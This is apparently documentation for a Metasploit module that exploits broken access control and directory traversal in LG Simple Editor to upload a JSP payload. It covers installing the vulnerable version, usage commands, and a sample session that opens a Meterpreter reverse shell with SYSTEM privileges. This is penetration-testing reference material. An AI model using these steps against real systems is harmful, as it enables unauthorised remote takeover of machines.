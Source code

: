 ## Vulnerable Application

LG Simple Editor is recommended for small businesses and sports bars which require simple content
display or play-on-air via their signage. It enables easy new content creation by simplifying processes,
and immediate playback on signage.

This Metasploit module exploits broken access control and directory traversal
vulnerabilities in LG Simple Editor software for gaining code execution.
The vulnerabilities exists in versions of LG Simple Editor prior to v3.21.
By exploiting this flaw, an attacker can upload and execute a malicious JSP
payload with the SYSTEM user permissions.

## Testing
For installing the vulnerable version follow the steps below,
1. Download the installation file of the vulnerable software
[here](https://www.lg.com/us/business/display-solutions/supersign-w-lite/downloads/LGSimpleEditor_setup_v3_21_0.exe.zip)
2. Follow the installation steps.

After these steps, the LG Simple Editor service should be accessible on port 8080.

## Verification Steps

1. msfconsole
2. Do: `use exploit/windows/http/lg_simple_editor_rce`
3. Do: `set RHOST [IP]`
4. Do: `check`

## Options

## Scenarios

```
msf6 > use exploit/windows/http/lg_simple_editor_rce
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/lg_simple_editor_rce) > set rhosts 192.168.56.109
rhosts => 192.168.56.109
msf6 exploit(windows/http/lg_simple_editor_rce) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(windows/http/lg_simple_editor_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version: 3.21.0
[*] Uploading JSP payload...
[+] Payload uploaded successfully
[+] /nvFIE_original.bmp -> /nvFIE.jsp copy successful.
[*] Triggering payload...
[*] Sending stage (175686 bytes) to 192.168.56.109
[+] Deleted ./webapps/simpleeditor/nvFIE.jsp
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.109:50097) at 2023-09-01 03:44:31 +0200

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo 
Computer        : DESKTOP-LB6UGKE
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 

```
